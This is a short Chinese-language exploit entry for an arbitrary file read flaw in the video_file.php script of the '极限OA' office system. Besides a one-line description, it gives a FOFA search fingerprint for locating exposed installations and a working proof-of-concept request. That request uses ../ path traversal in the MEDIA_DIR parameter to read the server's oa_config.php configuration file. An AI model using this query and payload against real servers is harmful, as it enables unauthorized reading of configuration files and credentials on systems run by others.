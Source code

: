 # 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
极限OA
```

## FOFA

```
icon_hash="1967132225"
```

## 漏洞复现

登录页面

![image-20220715111126095](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151111176.png)

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![image-20220715111241562](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151112653.png)